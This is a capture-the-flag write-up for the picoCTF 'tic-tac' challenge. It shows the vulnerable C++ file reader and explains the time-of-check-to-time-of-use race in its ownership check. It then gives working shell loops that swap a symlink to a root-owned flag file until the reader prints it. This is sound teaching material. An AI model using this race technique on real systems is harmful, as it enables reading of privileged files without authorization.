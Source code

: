 # Writeup - tic-tac
Category: Binary Exploitation, Points: 200


## Descpriton

> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

We connect to the VM with `ssh`. Further details are given when the instance is launched.


## Vulnerability

After `ssh`ing into the VM. 

We can `ls` the current directory.

```console
$ ls
flag.txt  src.cpp  txtreader
```

We can see there is a `src.cpp` source file, a `flag.txt` file and a binary `./txtreader` file.

We can read `src.cpp` file.

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Now, the program is quite simple. It reads a file into the `file` pointer, and checks if the `file` is owned by the same person who created it. If the check passes it prints the contents of the file onto the screen. 

The `getuid` function returns your user-id, and the `statbuf.st_uid` returns the id of the `file` owner.

If we try to read the `flag.txt` file like this:

```console
$ ./txtreader flag.txt
Error: you don't own this file
```

It doesn't read it because we didn't create the `flag.txt` file. The `root` user has created it.

Now let's think of adding a `symlink`. If we create a `symlink` to `flag.txt`. It should trick the program into printing the contents of `flag.txt`, because we created the `symlink` hence we are the owners, and so it should pass the check.

```console
$ ln -sf flag.txt link  ##create the symlink
$ ./txtreader link
```

Unfortunately, this fails. The reason being the `stat` function resolves the `symlink` to it's orignal file `flag.txt`. Hence, on the `statbuf.st_uid` call, it gives the user-id for `root`.

If we see the challange tags, there is a tag called `toctou`. Google it and this results into a `time-of-check-time-of-use` attack. `toctou` attacks are caused by something called [Race Conditions](https://en.wikipedia.org/wiki/Race_condition). 

Race Conditions happen when two or more operations are running in parallel.

There is a Race Condition in the `src.cpp` file, caused by 2 instances. Firstly, it checks the ownership of the file. Secondly, it reads the file. We want to swap the file between when it checks ownership and when it reads.

```console
check_ownership(file) -- file is a dummy file owned by us

swap the file -- from the dummy file to flag.txt

read_file(file) -- read the flag.txt file!
```


## Exploit

First we create a dummy `random.txt` file.

Then, we can swap the `file` with a `symlink`. The basic idea is to keep swapping the `symlink` between `flag.txt` and our dummy file `random.txt`, for some amount of time in the background.

We can do this by:

```console
$ timeout 30s bash -c 'while true; do ln -sf random.txt flag; ln -sf flag.txt flag; done' &
```

The `timeout` command times-out after 30 seconds.

We then try to run `txtreader` multiple times so that we swap the file at the right time.

```console
$ while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```

We should get the flag.


## References

[Link 1](https://brandon-t-elliott.github.io/tic-tac)
[Link 2](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)


